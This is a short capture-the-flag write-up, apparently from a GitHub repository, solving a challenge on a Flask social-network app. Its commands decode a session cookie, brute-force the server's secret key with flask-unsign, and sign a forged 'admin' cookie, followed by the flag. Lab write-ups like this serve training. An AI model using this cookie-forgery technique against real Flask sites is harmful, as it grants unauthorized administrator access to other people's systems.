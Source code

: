 #### Challenge:

Hi Expert,

the application running on `http://78.128.216.18:65181` was probably some kind of social network. Get access to the system and export any valuable data.

Good Luck!

---

#### Solution:

- inspecting the website reveals that it uses `flask` thus we try to forge our custom cookie, with brute-force of the server key

```bash
pip3 install flask-unsign
pip3 install flask-unsign[wordlist]

flask-unsign -d -c 'eyJ1c2VybmFtZSI6bnVsbH0.YWReMQ.jiNtpXvQ8CZtIqXYv0wRmVpKpak'
flask-unsign --server http://78.128.216.18:65181/ --unsign
flask-unsign --sign --secret f3cfe9ed8fae309f02079dbf --cookie "{'username': 'admin'}"
```

---

<details><summary>FLAG:</summary>

```
FLAG{r4Kt-Ws0C-J3b3-2EJg}
```

</details>
<br/>
